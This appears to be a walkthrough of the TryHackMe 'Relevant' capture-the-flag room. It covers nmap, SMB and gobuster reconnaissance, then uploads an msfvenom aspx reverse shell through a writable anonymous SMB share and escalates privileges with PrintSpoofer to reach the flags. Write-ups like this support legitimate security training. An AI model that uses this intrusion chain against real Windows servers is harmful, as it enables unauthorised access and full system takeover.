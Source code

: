 ## TryHackMe | Relevant

### Step 1: Reconnaissance

Start with an nmap scan against the target machine: 

```
nmap -sV -sC -p- [Target IP]
```
We use -sV for a more verbose response, and -sC for standard scripts, -p- for all ports. Additionally, if you'd like to put the output into a file, you can add -oN [filename].

![NmapScan](THMScreenshots/Relevant/NmapScan.png)

When our scan finishes, we'll see ports 80, 135, 139, 445, 3389, 49663(which happens to be another http server), 49666, and 49668 open. Lets check out the web server on port 80 first. It seems just like a default web server page run on windows server. Nothing special.

We do have an smb share available so lets check and see what's there.

```
smbclient -L [target IP]
```

![SMBShares](THMScreenshots/Relevant/SMBShares.png)

There seems to be a share we can access anonymously! Lets access it:
```
smbclient \\\\targetip\\nt4wrksv
```
When we check the contents of the file in the share, there are encoded messages that end up being false logins if you try using evilwinrm to access the machine. So lets move on and check the other http server port our nmap scan showed us.

This one also looks like a normal basic webserver. I previously tried using gobuster on the other webserver on port 80 with no luck, but lets try doing it here on this port too and see if we get any results.
```
gobuster dir -u http://[Machine IP] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Interestingly enough, we find a directory called ```nt4wrksv``` and if we try going to ```http://targeturl:49663/passwords.txt``` we'll find the file we got originally from the smb share. Lets try putting our own file in the share and see if we can access it via the webserver.

## Exploiting the Machine

Make your own random file with some text, log into the smb share, and use
```
put [file]
```
Go to the url with the /[file you uploaded] and it should work! Which means we can upload any files we want. Sounds like we can upload a reverse shell!

Originally, I was trying to do this with a standard php reverse shell with no luck. After doing some research, because this web server is on Windows IIS, we'll need to use the aspx format. We're going to have to build a payload here.

There's actually multiple ways to do this, like msfvenom, but I wanted to try a new platform a colleague of mine talked about called ```https://pentest.ws``` so I'll walk you through how I do it here this time. First you'll have to make an account and go to the venom-builder section. The payload settings we want are as follows:
```
windows/x64/shell_reverse_tcp
LHOST: Your IP
LPORT: Your listening port
Format: aspx
Outfile: the name of the payload file
```
In the bottom left you'll see the msfvenom you can simply copy and paste into your terminal and you now have your payload!

![Payload](THMScreenshots/Relevant/Payload.png)

Once msfvenom finishes the payload, we're ready to upload it to our SMB share! Once that's done, set up a listener and visit the page! You've gotten into the machine!

![ReverseShell](THMScreenshots/Relevant/ReverseShell.png)

### User Flag

It took me a bit of work to figure out what to do here. This room takes advantage of a vulnerability used in some instances of Windows Server called PrintSpoofer, which I'll make you go find and read about on your own. But we'll need to go to C:\inetpub\wwwroot. You'll notice this is where the nt4wrksv directory is that we were uploading files to via SMB earlier. We go here because we know we have permissions in this directory. Go find the PrintSpoofer.exe file (it shouldn't be too hard to find), and upload it to the smb share that we've been using.
Now use the command:
```
PrintSpoofer.exe -i -c cmd
-i for interact
-c for command
```
We now have an upgraded shell!

We can move to the C:\Users\Bob\Desktop\ directory and find the user flag! P.S. Remember, this is a windows machine so we can't use cat!

![UserFlag](THMScreenshots/Relevant/UserFlag.png)

### Root Flag

We actually escalated our privileges in the last section, so we can just move to the Administrators share and grab the root flag from there. Thanks for reading!

![RootFlag](THMScreenshots/Relevant/RootFlag.png)

## Congratulations on completing the Relevant Room!
